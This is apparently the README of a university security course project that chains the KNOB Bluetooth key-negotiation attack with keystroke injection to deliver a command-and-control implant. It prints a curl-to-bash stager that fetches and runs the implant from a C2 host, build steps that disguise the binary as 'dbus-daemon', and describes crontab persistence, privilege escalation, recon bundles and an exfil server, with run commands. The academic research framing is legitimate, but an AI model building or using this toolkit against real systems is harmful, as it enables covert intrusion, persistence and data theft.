


# CS564 Project

**Team:** Pacebreakers

**Members:**
- Ayush Ravi Chandran
- Joyce Werhane 
- Amy Chang
- Joe Lebedev

## Project Overview

### The KNOB Attack

A Key Negotiation of Bluetooth (KNOB) attack exploits a critical vulnerability in the BR/EDR Core protocol for versions <= 5.1. During early link key negotiations, where the master and slave device interact through the Link Manager Protocol at the link layer to create a cryptographic shared secret, LMP negotiation packets can be injected with a byte width of 1 byte for determining secret entropy. This enables a MITM to intercept packets between linked devices and brute-force one of the 256 possible keys against the E0 encryption schema used to secure the connection, allowing them to spoof Bluetooth packets from the slave device.

### The Application
There are numerous opportunies provided by the ability to spoof a device connected with BR/EDR Core, and among them is the potential for spoofing a HID keyboard paired with the master device to receive user inputs. This echoes the famous badUSB exploit which appeared in numerous real-world attacks across the 2010s: since HID devices operate on highly generalized standards and benefit from intrinsically high trust, a device which spoofs HID device interactions with a system gains a massive exploit surface to attack. Consequently, our project recreates and researches the dimensions of this security issue, creating an attack chain which leverages the KNOB attack and the badUSB attack to turn a real HID keyboard integrated within a compliant environment into a weapon. Due to the MITM dynamics, this attack chain is something like a "0-interaction" exploit, a threat which converges on a "zero-click" exploit insofar as it weaponizes a pre-existing Bluetooth device pairing with no user input outside pairing the legitimate keyboard.

### Assumptions

- Victim is using an OS from before the 2019 KNOB patch
- Victim is using a BR/EDR HID keyboard
- Test environment: Ubuntu 16.04 (or similar era Ubuntu distro)

### Hardware

The HID keyboard is emulated by a Raspberry Pi 3 running Raspbian OS, while the attacking hardware is a separate Raspberry Pi 3 with Raspbian OS. LMP packet injection is facilitated with the [InternalBlue](https://github.com/seemoo-lab/internalblue) repository, which provides RAM patches for the memory segments handling LMP transmissions.

### Keystroke Injection Payload

The payload opens a command window and pops a shell based on the Linux environment, providing broader support for different Linux distros, GUIs, and configurations. It then runs a chain of commands that creates an environment dump of system details, interpreters, and compilers, makes a POST request to the C2 server with information about the target, downloads the implant, sets execution permissions, and executes it discarding all stdout/stderr traces.

### Demo Video

The video first shows the C2 server starting up with no active implant connections and an empty cache directory. The keystroke injection payload then runs, opening a command window and shell where the one-liner downloads and executes the implant. The visible traces of the injection window last ~3 seconds. After the window closes, the implant appears in the cache directory and a new connection shows in the C2 operator. A `SHUTDOWN` command is then issued, and the implant list returns empty, confirming end-to-end command execution.

## Exploit Flow Diagram

Updated:



Old:



## Milestone 2 C2 Infrastructure

### What was added

| Feature | Details |
|---|---|
| TLS on implant channel | Ephemeral self-signed cert generated at C2 startup - all implant traffic on port 9999 is TLS encrypted |
| HTTPS staging server | Serves implant binary (`/b`) and stager script (`/s`) over HTTPS with decoy responses on all other paths |
| Stripped ELF binary | Implant compiled with PyInstaller (`--onefile --noupx`) and `strip --strip-all`, named `dbus-daemon` to blend in |
| RECON_BUNDLE | Single command runs multiple recon steps (whoami, kernel, network, processes, SUID bins, etc.) and returns combined report |
| PERSIST | `@reboot` crontab entry |
| PRIVESC | Enumerates sudo NOPASSWD, SUID bins, writable sudoers; attempts escalation; spawns new root implant session on success |
| Operator reconnect | `op.py` reconnects automatically if C2 drops |

### The implant 

The implant is designed to run once with root privileges (obtained via our separate privilege escalation script) to install itself into a system path and the startup script into the startup service. After this initial setup, root access is no longer required, the OS automatically launches the implant every reboot via the init.d script (startup script). Once running, the implant beacons back to the C2 server at randomized intervals (4 to 12 minutes) to poll for operator commands. It has one built-in task, a recon bundle that collects system information (hostname, users, network, processes) and sends it to the server. The recon bundle runs automatically on first install and can also be triggered on demand via the C2.

### Stager delivery (Milestone 2 path)

```bash
# On victim machine - replace IP with your C2 host
curl -fsSLk https://<C2_HOST>/s | bash
```

The stager downloads the pre-built `dbus-daemon` binary from the staging server, installs it to `~/.cache/.sysd/`, and executes it. The implant beacons to the C2 over TLS.

### Building the implant binary

The binary must be compiled on Linux (WSL works):

```bash
pyinstaller --onefile --strip --noupx --name dbus-daemon \
    --hidden-import ssl --hidden-import _ssl \
    --collect-all cryptography \
    implant_client.py
cp dist/dbus-daemon staging/dbus-daemon
```

## Build & Run

**Prerequisites:** Docker, Docker Compose

```bash
# 1. Set operator token
export OPERATOR_TOKEN=mysecrettoken

# 2. Build and launch C2, exfil and staging servers
docker compose up --build
```

**To test locally (no real implant):**

Uncomment the `implant-sim` service in `docker-compose.yml`, then re-run `docker compose up --build`.

Once an implant connects, run the operator console:

```bash
OPERATOR_TOKEN=mysecrettoken python op.py
```

**Without Docker:**

```bash
pip install -r requirements.txt
python c2_server.py       # terminal 1
python exfil_server.py    # terminal 2
python op.py              # terminal 3 (after an implant connects)
```

**Ports used:**

| Port | Service                        |
|------|--------------------------------|
| 9999 | Implant C2 (TLS)               |
| 9998 | Operator API (localhost only)  |
| 9090 | Exfil receiver                 |
| 443  | HTTPS staging server           |